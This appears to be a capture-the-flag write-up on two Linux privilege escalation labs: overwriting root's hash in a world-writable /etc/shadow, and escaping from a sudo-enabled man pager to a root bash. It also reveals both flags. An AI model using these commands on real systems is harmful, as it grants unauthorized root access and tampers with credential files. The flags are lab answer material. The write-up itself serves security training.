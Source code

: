# 🔬Linux Privilege Escalation

## Lab 1

> 🔬 [Permissions Matter!](https://www.attackdefense.com/challengedetailsnoauth?cid=75)
>
> - Direct access to the target machine via `student` unprivileged user
> - Find specific **Linux Privilege escalation vulnerabilities manually**
> - Some files permissions are not set properly, use them to elevate privileges.

### Local Enumeration

![](assets/image-20230429120411574.png)

### Misconfigured Permissions Files

- Look for **world writable files**
  - *Find a file that could help to elevate privileges*

```bash
find / -not -type l -perm -o+w
```

![find / -not -type l -perm -o+w](assets/image-20230429120640470.png)

> ❗ `/etc/shadow` is writable by everyone!

```bash
ls -l /etc/shadow
cat /etc/shadow

# "root" user doesn't have a password specified
```

![](assets/image-20230429121216978.png)

### Privilege Escalation

- `/etc/shadow` stores the passwords in an encrypted format, so the `root` password need to be replaced with a hashed password

```bash
# Generate a password entry
openssl passwd -1 -salt abc password123
	$1$abc$UWUoROXzUCsLsVzI0R2et.

# Edit and paste the hashed password into the /etc/shadow file
vim /etc/shadow
```

![](assets/image-20230429121433738.png)

- Switch to the `root` user

```bash
su
# type "password123" password for "root" user

cd
ls
cat flag
```



<details>
<summary>Reveal Flag: 🚩</summary>


`e62ab67ddff744d60cbb6232feaefc4d`

![](assets/image-20230429121642209.png)

</details>

------

## Lab 2

> 🔬 [Editing Gone Wrong](https://www.attackdefense.com/challengedetailsnoauth?cid=80)
>
> - Direct access to the target machine via `student` unprivileged user
> - Find **misconfigured `sudo` privileges**

### Local Enumeration

![](assets/image-20230429120411574.png)

### Misconfigured SUDO Privileges

- Find [`setuid`](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/) programs

```bash
find / -user root -perm -4000 -exec ls -ldb {} \;
 
find / -perm -u=s -type f 2>/dev/null
```

![](assets/image-20230429122610598.png)

> 📌 Useful tool - [FallOfSudo](https://github.com/CyberOne-TeamARES/FallOfSudo)

- Identify what commands the `student` user can run

```bash
sudo -l
```

![](assets/image-20230429122043004.png)

> ❗ **`/usr/bin/man`** binary can be run ***with `SUDO` privileges, without providing a `root` user password***

- This can happen on Linux systems for specific binaries that other users have to run with `SUDO` privileges. It looks *harmless*, but it can allow users to spawn bash privileged sessions, since **the specific binary can be utilized to execute specific commands**. Those commands are executed with the binary `root` privileges.

### Privilege Escalation

```bash
sudo man ls
```

- In the `man` scrolling page, using the **`!`** a `bash` can be spawned

```bash
!/bin/bash

# "root" bash sessions is received
```

![!/bin/bash](assets/image-20230429123257366.png)

- Retrieve the flag with the **`root`** user



<details>
<summary>Reveal Flag: 🚩</summary>



`74f5cc752947ec8a522f9c49453b8e9a`

![](assets/image-20230429123424840.png)

</details>

------

